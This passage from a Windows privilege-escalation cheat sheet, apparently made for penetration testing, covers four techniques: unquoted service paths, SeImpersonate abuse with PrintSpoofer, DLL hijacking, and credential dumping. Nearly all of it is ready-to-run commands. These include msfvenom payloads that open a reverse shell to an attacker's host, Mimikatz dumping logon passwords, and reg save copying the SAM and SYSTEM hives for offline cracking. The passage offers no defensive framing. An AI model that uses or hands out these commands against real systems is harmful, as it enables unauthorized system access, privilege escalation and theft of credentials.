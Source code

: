 
#### **3. Unquoted Service Paths**
Exploit a service path with spaces that is not enclosed in quotes.
* **Find:**
    ```powershell
    wmic service get name,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
    ```
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious executable named after the first part of the path
    rem -- e.g., for "C:\Program Files\App\vuln.exe", name it "Program.exe"
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe -o Program.exe
    rem -- Place the payload in the higher-level path and restart the service
    copy Program.exe "C:\"
    sc stop <VulnSvc>
    sc start <VulnSvc>
    ```

---

#### **4. SeImpersonate Privilege Escalation**
Abuse token impersonation privileges to become **SYSTEM**.
* **Find:**
    ```powershell
    whoami /priv
    ```
* **Exploit Command:**
    ```powershell
    rem -- Use a tool like PrintSpoofer to get a SYSTEM shell
    PrintSpoofer.exe -i -c "cmd.exe"
    ```

---

#### **5. DLL Hijacking**
Load a malicious DLL into a privileged application.
* **Find:** Use **ProcMon.exe** to find `NAME NOT FOUND` errors for `.dll` files.
* **Exploit Commands:**
    ```powershell
    rem -- Create a malicious DLL with the same name as the missing one
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f dll -o vulnerable.dll
    rem -- Place it in the writable directory and restart the application
    copy vulnerable.dll "C:\Path\To\Writable\Folder\"
    ```

---

#### **6. Sensitive Files & Hashes (SAM/LSA Secrets)**
Extract credentials from files or memory. **(Usually requires Admin)**.
* **Find:**
    ```powershell
    rem -- Search for passwords in common config files
    dir /s /b *unattended*.xml *web.config* *pass*.txt
    ```
* **Exploit Commands (Requires Admin):**
    ```powershell
    rem -- Dump hashes from LSA memory with Mimikatz
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
    rem -- Dump SAM and SYSTEM hives for offline cracking
    reg save hklm\sam C:\tmp\sam.save
    reg save hklm\system C:\tmp\system.save
    ```

---